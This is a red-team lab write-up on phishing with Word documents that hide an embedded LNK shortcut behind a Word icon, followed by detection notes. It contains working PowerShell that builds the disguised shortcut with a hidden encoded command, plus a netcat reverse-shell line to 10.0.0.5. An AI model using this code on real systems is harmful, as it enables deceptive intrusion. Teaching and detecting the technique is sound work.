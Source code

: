 ```yaml
---
layout: post
title: "phishing ole + lnk"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /phishing-ole-+-lnk/
---
```


---
layout: post
title: "phishing ole + lnk"
date: 2024-06-18
categories: phishing-with-ms-office
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /phishing-ole-+-lnk/
---

---
description: 'Phishing, Initial Access using embedded OLE + LNK objects'
---

# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them. 

## Weaponization

Creating an .LNK file that will trigger the payload once executed:

{% code title="attacker@local" %}
```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```
{% endcode %}

Powershell payload will trigger a rudimentary NC reverse shell:

{% code title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Once the above powershell script is executed, an `.LNK` shortcut is created:

![](../../../.gitbook/assets/ole-lnk-shortcut-created.png)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](../../../.gitbook/assets/ole-good-document.png)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](../../../.gitbook/assets/ole-insert-ole-object-with-icon.png)

![](../../../.gitbook/assets/ole-change-icon.png)

Point the package to the .lnk file containing the payload:

![](../../../.gitbook/assets/ole-payload.png)

Final result:

![](../../../.gitbook/assets/ole-weaponized.png)

## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](../../../.gitbook/assets/ole-execution.png)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](../../../.gitbook/assets/ole-execution2.png)

{% file src="../../../.gitbook/assets/ole.ps1" caption="OLE+LNK Powershell Script" %}

{% file src="../../../.gitbook/assets/invoice-fintech-0900541.lnk" caption="Invoice-FinTech-0900541.lnk" %}

{% file src="../../../.gitbook/assets/completely-not-a-scam-ole+lnk.docx" caption="Phishing: OLE+Lnk MS Word Doc Package" %}

## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell..:

![](../../../.gitbook/assets/ole-ancestry1.png)

Soon after, the powershell gets killed and cmd.exe becomes an orphaned process:

![](../../../.gitbook/assets/ole-ancestry2.png)

Like in [T1137: Phishing - Office Macros](t1137-office-vba-macros.md), you can use rudimentary tools on your Windows workstation to quickly triage the suspicious Office document. First off, rename the file to a .zip extension and unzip it. Then you can navigate to `word\embeddings` and find `oleObject.bin` file that contains the malicious `.lnk`:

![](../../../.gitbook/assets/ole-embedded-bin.png)

Then you can do a simple `strings` or hexdump against the file and you should immediately see signs of something that should raise your eyebrow\(s\):

```csharp
hexdump.exe -C .\oleObject1.bin
```

![](../../../.gitbook/assets/ole-hexdump.png)

As an analyst, one should look for `CLSID 00021401-0000-0000-c000-000000000046` in the .bin file, which signifies that the .doc contains an embnedded .lnk file. In our case this can be observed here:

![](../../../.gitbook/assets/lnk-clsid.png)

## References

{% embed url="https://msdn.microsoft.com/en-gb/library/dd891343.aspx" %}

{% embed url="https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" %}

@spotheplanet
